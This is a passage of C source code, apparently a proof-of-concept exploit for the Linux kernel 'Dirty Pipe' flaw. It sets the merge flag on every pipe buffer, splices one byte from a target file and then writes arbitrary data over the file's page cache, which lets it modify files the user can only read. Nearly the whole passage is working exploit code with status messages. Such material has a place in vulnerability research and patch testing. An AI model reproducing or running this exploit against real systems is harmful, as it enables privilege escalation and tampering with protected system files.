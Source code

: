 ```c

    if (offset_in_file > target_file_stat.st_size)
        errExit("Offset is not in the file!");

    data_size = strlen(argv[3]);
    if ((offset_in_file + data_size) > target_file_stat.st_size)
        errExit("Cannot enlarge the file!");

    if (((offset_in_file % page_size) + data_size) > page_size)
        errExit("Cannot write accross a page!");

    // exploit now...
    puts("\033[34m\033[1m[*] Start exploiting...\033[0m");

    /*
     * prepare the pipe, make every pipe_buffer a MERGE flag
     * Just write and read through
     */
    puts("\033[34m\033[1m[*] Setting the PIPE_BUF_FLAG_CAN_MERGE for each buffer in pipe.\033[0m");
    pipe(pipe_fd);
    pipe_size = fcntl(pipe_fd[1], F_GETPIPE_SZ);
    buffer = (char*) malloc(page_size);

    for (int size_left = pipe_size; size_left > 0; )
    {
        int per_write = size_left > page_size ? page_size : size_left;
        size_left -= write(pipe_fd[1], buffer, per_write);
    }

    for (int size_left = pipe_size; size_left > 0; )
    {
        int per_read = size_left > page_size ? page_size : size_left;
        size_left -= read(pipe_fd[0], buffer, per_read);
    }

    puts("\033[32m\033[1m[+] Flag setting has been done.\033[0m");

    /*
     * Use the splice to make the pipe_buffer->page
     * become the page of the file mapped, by read
     * a byte from the file accross the splice
     */
    puts("\033[34m\033[1m[*] Reading a byte from the file by splice.\033[0m");
    offset_in_file--;   // we read a byte, so offset should minus 1
    retval = splice(target_file_fd, &offset_in_file, pipe_fd[1], NULL, 1, 0);
    if (retval < 0)
        errExit("splice failed!");
    else if (retval == 0)
        errExit("short splice!");
    puts("\033[32m\033[1m[+] File splice done.\033[0m");

    /*
     * Now it comes to the time of exploit:
     * the mapped page of file has been in pipe_buffer,
     * and the PIPE_BUF_FLAG_CAN_MERGE is still set,
     * just a simple write can make the exploit.
     */
    retval = write(pipe_fd[1], argv[3], data_size);
    if (retval < 0)
        errExit("Write failed!");
    else if (retval < data_size)
        errExit("Short write!");

```